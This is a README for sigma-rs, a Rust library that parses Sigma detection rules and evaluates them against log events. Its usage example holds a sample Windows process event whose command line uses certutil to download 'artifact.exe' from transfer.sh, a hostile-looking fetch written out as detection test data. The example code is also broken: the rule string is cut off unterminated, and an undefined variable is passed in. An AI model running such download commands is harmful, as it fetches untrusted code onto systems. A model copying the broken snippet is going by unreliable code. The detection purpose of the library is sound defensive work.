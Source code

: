 # sigma-rs
A Rust implementation and parser of [Sigma rules](https://github.com/SigmaHQ/sigma). Useful for building your own detection pipelines.

## Features
- support complex condition like ```(not test*) and ((1 of test1) or (all of test))```
- regex build cache
## Usage
```rust
fn main() {
    let rule = r#"title: Suspicious File Downloaded From File-Sharing Website Via Certutil.EXE#;
let json = r#"{
    "Image": "C:\\Windows\\system32\\certutil.exe",
    "ParentImage": "C:\\WINDOWS\\system32\\cmd.exe",
    "ProcessId": "10952",
    "utc_time": "2023-03-20 17:31:23",
    "ServerScore": "0",
    "CommandLine": "certutil  -urlcache \"-split\" \"-f\" \"http://transfer.sh/artifact.exe test.exe\"",
    "ParentCommandLine": "\"C:\\WINDOWS\\system32\\cmd.exe\"",
    "OriginalFile": "CertUtil.exe.mui",
    "log_type": "ProcessCreate"
  }"#;
    println!("{}", evaluate_sigma(parse_sigma(rule.to_string()), &source));
}
```

## Reference
- [sigma-go](https://github.com/bradleyjkemp/sigma-go) 
- [chainsaw](https://github.com/WithSecureLabs/chainsaw)